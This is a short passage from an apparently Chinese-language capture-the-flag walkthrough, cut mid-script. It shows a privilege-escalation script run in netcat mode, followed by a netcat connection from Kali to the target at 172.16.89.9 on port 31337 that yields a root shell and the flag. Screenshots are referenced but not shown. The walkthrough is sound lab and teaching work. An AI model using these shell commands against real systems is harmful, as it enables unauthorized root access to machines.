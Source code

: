 ```]
	nc -v 127.0.0.1 31337

else
	usage
fi
EOF
```

运行

```
bash pri.sh -m netcat
```

![image-20211007220943261](/assets/img/image-20211007220943261.png)

在kali上创建连接后，拿到root权限shell

```
nc -nv 172.16.89.9 31337 
```

![image-20211007221027898](/assets/img/image-20211007221027898.png)

获得flag

![image-20211007221320899](/assets/img/image-20211007221320899.png)
